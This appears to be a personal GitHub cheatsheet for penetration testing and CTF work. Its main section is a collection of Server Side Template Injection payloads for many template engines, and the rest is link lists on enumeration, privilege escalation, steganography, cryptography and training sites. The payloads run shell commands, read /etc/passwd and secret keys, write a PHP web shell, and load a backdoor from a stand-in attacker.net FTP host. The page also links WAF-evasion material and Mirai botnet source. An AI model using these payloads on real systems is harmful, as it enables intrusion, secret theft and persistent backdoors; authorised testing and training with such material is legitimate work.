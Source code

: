 Intel (insert better title here)
================

- [Cheatsheets](#Cheatsheets)
- [Enumeration](#Enumeration)
- [Privelege Escalation](#Privilege-Escalation)
- [Steganography](#Steganography)
- [Cryptography](#Cryptography)
- [Reverse Engineering](#Reverse-Engineering)
- [Wordlists](#Wordlists)
- [Learn To](#Learn-To)

----------------------------------

## Cheatsheets

### Server Side Template Injection (SSTI)

###### Polyglot:
```
${{<%[%'"}}%\
```

###### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
###### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
###### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
###### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
###### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
###### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
###### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
###### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
###### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
###### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
###### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
###### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
###### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

## Enumeration

https://github.com/darkoperator/dnsrecon

## Privilege Escalation

### Windows

###### Living off the Land
https://lolbas-project.github.io/

### Linux

###### Living off the Land

https://gtfobins.github.io/



## Steganography

https://29a.ch/photo-forensics/#forensic-magnifier
https://futureboy.us/stegano/decinput.html
https://github.com/DominicBreuker/stego-toolkit
https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
https://stegonline.georgeom.net/upload
https://lukeslytalker.pythonanywhere.com/

## Cryptography

https://gchq.github.io/CyberChef/cyberchef.htm
https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
http://fbcs.bplaced.net/multi_encoder_decoder.html
https://quipqiup.com/
https://mothereff.in/bacon
http://www.spammimic.com/
https://crypto.interactive-maths.com/affine-cipher.html

## Reverse Engineering

https://onlinedisassembler.com/static/home/index.html

## Wordlists

https://wiki.skullsecurity.org/Passwords

## Learn To

### Hack
https://app.hackthebox.eu/dashboard
https://www.hackthissite.org/
https://www.hacksplaining.com/
https://www.hacking-lab.com/index.html
https://cryptopals.com/
https://ocw.cs.pub.ro/courses/cns
https://www.pentesteracademy.com/
https://tryhackme.com/
https://learn.hacktify.in/collections?category=courses&page=1

### Code
http://www.codecraftgame.org/
https://codingbat.com/

## Misc (yet to sort)


https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
https://github.com/jgamblin/Mirai-Source-Code

